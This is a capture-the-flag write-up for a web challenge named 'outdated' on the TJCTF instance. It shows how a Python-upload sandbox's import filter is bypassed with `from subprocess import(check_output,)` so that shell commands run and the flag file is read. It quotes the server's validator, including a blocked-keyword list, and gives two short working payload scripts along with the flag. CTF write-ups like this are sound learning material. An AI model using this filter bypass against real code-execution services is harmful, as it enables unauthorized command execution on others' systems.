




# outdated
Category: Web

## Description
I found this old website that runs your python code, but the security hasn't been updated in years

I'm sure there's a flag floating around, can you find it?

[Instancer](https://instancer.tjctf.org/challenge/outdated)

Attachments: [server.zip](attachments/server.zip)

## Write-up
When navigating to the provided URL, we are greeted with a webpage displaying the interface shown in the screenshot:



It appears that this page allows us to upload Python scripts for execution.



Upon examining the codebase, specifically the `submit()` function responsible for handling Python submissions, we notice that our uploaded files undergo validation (`test_code()`) before they can be executed. Here is a snippet showcasing the validation process:

```
if 'file' not in request.files:
    return redirect('/')
f = request.files['file']
fname = f"uploads/{uuid.uuid4()}.py"
f.save(fname)
code_to_test = re.sub(r'\\\s*\n\s*', '', open(fname).read().strip())
tested = test_code(code_to_test)
if tested[0]:
    res = ''
    try:
        ps = subprocess.run(['python', fname], timeout=5, capture_output=True, text=True)
        res = ps.stdout
    except:
        res = 'code timout'
...
```

The provided code also includes various validation methods:

```
def test_for_non_ascii(code):
    return any(not (0 < ord(c) < 127) for c in code)

def test_for_imports(code):
    cleaned = clean_comments_and_strings(code)
    return 'import ' in cleaned

def test_for_invalid(code):
    if len(code) > 1000:
        return True
    try:
        parse(code)
    except:
        return True
    return False

blocked = ["__import__", "globals", "locals", "__builtins__", "dir", "eval", "exec",
        "breakpoint", "callable", "classmethod", "compile", "staticmethod", "sys",
        "__importlib__", "delattr", "getattr", "setattr", "hasattr", "sys", "open"]

blocked_regex = re.compile(fr'({"|".join(blocked)})(?![a-zA-Z0-9_])')

def test_for_disallowed(code):
    code = clean_comments_and_strings(code)
    return blocked_regex.search(code) is not None

def test_code(code):
    if test_for_non_ascii(code):
        return (False, 'found a non-ascii character')
    elif test_for_invalid(code):
        return (False, 'code too long or not parseable')
    elif test_for_imports(code):
        return (False, 'found an import')
    elif test_for_disallowed(code):
        return (False, 'found an invalid keyword')
    return (True, '')

def clean_comments_and_strings(code):
    code = re.sub(r'[rfb]*("""|\'\'\').*?\1', '', code,
                  flags=re.S)
    lines, res = code.split('\n'), ''
    for line in lines:
        line = re.sub(r'[rfb]*("|\')(.*?(?!\\).)?\1',
                      '', line)
        if '#' in line:
            line = line.split('#')[0]
        if not re.fullmatch(r'\s*', line):
          res += line + '\n'
    return res.strip()
```

Our goal is to upload a Python script that can execute `subprocess.check_output`, essentially providing us with Remote Code Execution (RCE) capabilities. We need to import `subprocess` to use `check_output`. The traditional way of importing `from subprocess import check_output` will be detected by the validator. To achieve execution, we need to cleverly bypass the `test_for_imports()` function. This function sanitizes the file content and checks for the presence of `import ` (note the space). Luckily, this can be simply bypassed with `from subprocess import(check_output,)`. Subsequently, we can execute `print(check_output(<command here>, shell=True).decode())` in our script which does not violate the rules of any validators.

To successfully accomplish our objective of leaking the flag content, we need to prepare two scripts. The first script, named [leak-flag-name.py](solution/leak-flag-name.py), is designed to extract the filename of the flag:

```
from subprocess import(check_output,)
print(check_output("ls", shell=True).decode())
```

Uploading this script yields the following output:



Next, we can proceed to upload the second script, , named [leak-flag.py](solution/leak-flag.py), which allows us to view the contents of the flag file:

```
from subprocess import(check_output,)
print(check_output("cat flag-62903cc6-5f4c-4602-bbde-8f155adc6625.txt", shell=True).decode())
```

Executing this script displays the flag we sought:



Flag: `tjctf{oops_bad_filter_3b582f74}`
